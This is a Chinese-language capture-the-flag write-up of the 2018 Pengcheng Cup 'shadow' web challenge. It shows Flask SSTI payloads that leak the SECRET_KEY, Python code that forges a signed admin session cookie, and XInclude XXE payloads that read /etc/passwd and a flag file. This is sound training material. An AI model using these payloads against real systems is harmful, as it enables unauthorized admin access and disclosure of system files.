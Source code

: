 ```yaml
---
title: 鹏城杯2018WEB shadow题解
author: huasir
comment: true
date: 2019-02-12 23:30:43
tags: 
	- flask
categories:
	- web
---
```


## 前言
今天打完了鹏城杯，还是一脸懵逼，主办方疯狂放提示，选手疯狂懵逼。。。
我在一堆脑洞题之间还是看到了一道比较有意思的web题目，虽然最后也没出flag，但还是挺有感悟的。
<!-- more -->

## 题目描述
给你一个flask搭建的网站，除了登录注册之外也没发现什么功能， 注释里看到有`/upload`路径，但访问提示需要admin权限。又四处游荡发现几个js不存在，回显是：

![20190212154998561366780.png](https://img.5am3.com/20190212154998561366780.png)

看到这里，应该是有404页面的SSTI漏洞了，但是试了几次发现无法直接命令执行，只好寻求来读一些内置变量，`config`和`self`都被禁了，读了[这位大佬的文章](https://blog.csdn.net/qq_33020901/article/details/83036927)。可知，可以通过`{{ request.environ }}  {{ request.cookies }} {{ url_for.__globals__ }} {{ get_flashed_messages.__globals__ }}
`读到一些变量，其中` {{ url_for.__globals__['current_app'].config }}`可以读到`SECRET_KEY`

![20190212154998565995974.png](https://img.5am3.com/20190212154998565995974.png)

这样我们就可以来伪造flask的cookie，获得admin权限了。通过访问`{{ request.cookies}}`拿到cookie

![2019021215499856735385.png](https://img.5am3.com/2019021215499856735385.png)

拆开看看里面有啥

```python
from itsdangerous import *

s=URLSafeTimedSerializer("as/*d21as-+dhasod5a4s54:><*()dfdsf", salt="cookie-session",signer_kwargs={"key_derivation":"hmac","digest_method":"sha1"})
data = s.loads(".eJw9kMFqg0AQhl-l7DkHXdNLIAfLWjGwI8oamb2INabu6qagkTQb8u4dcuhhYGDm-4b5H6w5z_0ysN25nZZ-wxpzYrsHe_tiOwa8uqHPPPqRqrgh1xZsctOqo07e0RaRdhjlabXN68yDxUCKg9G2irQaJu3KSdZILO2rOJQeRiQO0iLE-jiiS361jQPpjg55cUdOM5eF2sGQK-m1-L6jAqcFeilKA-Iw0H2PPOE6xQgUjFrJAES1Z88N65b53Fx_xv7y_wKhIaRVBOLToC1HwsNcfEySVxxIq9PSguhCmSYB1EkgbbaV8f6lM0vTnpwh2XVeKZpL63pSDmu7mJlt2Lr08ysu9s6ef3KlazU.XAOwLQ.q-Gin27oj8k69vvulgiayMpFKJs")
print (data)
```

![20190212154998569398968.png](https://img.5am3.com/20190212154998569398968.png)

可以看到这里`is_admin`是`False`,改成`True`再打包起来就行了
```python
result = s.dumps({'_fresh': True, '_id': {' b': 'ZTM3ODI5NTdjYTIxN2I0YzU5ZjgzNjBmZjgwMDE5YzM3ODI0MzZhOTkwNzdmOWIyOTAzMWU5YzkxZDNmYmM5MGQyM2M4N2FkZDQ2NThlZmUyNzA5ZTUwMGVmZDI2NDE5ODZlM2NjNWQ0NmY5NmRlNTQwYjg2MmY0ZTgwYjBiNTI='}, 'csrf_token': {' b': 'NWFkNmQ2OTgwZmU5ZGMyNWYxMTdiNzBhZDBiMTIxNjcxYjllZWM1Yw=='}, 'is_admin': True, 'name': 'huasir', 'user_id': '5'})

print (result)
```
拿着这个去访问upload，然后可以上传文件。当然python直接上传貌似不能拿shell，试了几次发现上传XML文件有回显，但是上传常见的XXE payload会显示错误。

![20190212154998571710950.png](https://img.5am3.com/20190212154998571710950.png)

参考[这篇文章](https://www.freebuf.com/column/156863.html)可以看到用XInclude可以避开使用`ENTITY`关键字：
```xml
<?xml version="1.0"?>
<data xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include href="file:///etc/passwd" parse="text"> 
</xi:include>
</data>
```
回显`/etc/passwd`内容

![20190212154998573865102.png](https://img.5am3.com/20190212154998573865102.png)

看到有个rq用户也有`bash`,读取其用户目录下的`.bash_history`可以看到flag文件的名字，遂构造payload：
```xml
<?xml version="1.0"?>
<data xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include href="file:///home/rq/f123333333ag" parse="text"> 
</xi:include>
</data>
```
flag:
![20190212154998575010135.png](https://img.5am3.com/20190212154998575010135.png)

## 问题
一开始我失败的原因是我想用flask服务来得到cookie：
```python
from flask import Flask, session, escape, request
 
app = Flask(__name__)
app.secret_key = 'as/*d21as-+dhasod5a4s54:><*()dfdsf'
 
 
@app.route("/")
def index():
    if 'name' in session:
        return 'hello, {}\ncookie: {}'.format(escape(session['name']),request.cookies)
    return 'hello, stranger\n'

@app.route("/login")
def login():
	session['csrf_token'] = 'IjQ1ZTgwOGU3YWY5YmZjOGUwM2U1MDQ1OTUxODI0MmRhNDQyYTM0OTci.XANzdg.ljY0IMuCAb2ovypjBa5OvzegdDs'
    session['_id'] = 'bc00ab0feca90420847a2fc0ea2d0491ee7177c453d037a041383b6f4b434304eae5fa0a220dc0111abd963bbcca5c466b6303b0afacabf8544523cdbc83e7c4'
    session['user_id'] = '1'
    session['name'] = 'admin'
    session['is_admin'] = True
    session['_fresh'] = True
    return "Login success"
 
 
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)

```
但是这样的cookie能进入/upload页面，但是一传文件就又反馈`only admin can use it`，结束后我又试了两次，又行了?_?....蜜汁，这样应该是没有影响的。
可能是因为我把flask服务改到一个页面里了？？/px
```python
@app.route("/")
def index():
    session['csrf_token'] = 'IjQ1ZTgwOGU3YWY5YmZjOGUwM2U1MDQ1OTUxODI0MmRhNDQyYTM0OTci.XANzdg.ljY0IMuCAb2ovypjBa5OvzegdDs'
    session['_id'] = 'bc00ab0feca90420847a2fc0ea2d0491ee7177c453d037a041383b6f4b434304eae5fa0a220dc0111abd963bbcca5c466b6303b0afacabf8544523cdbc83e7c4'
    session['user_id'] = '5'
    session['name'] = 'huasir'
    session['is_admin'] = True
    session['_fresh'] = True
    if 'name' in session:
        return 'hello, {}\ncookie: {}'.format(escape(session['name']),request.cookies)
    return 'hello, stranger\n'
```
python2和python3起服务虽然结果不同，但都能用。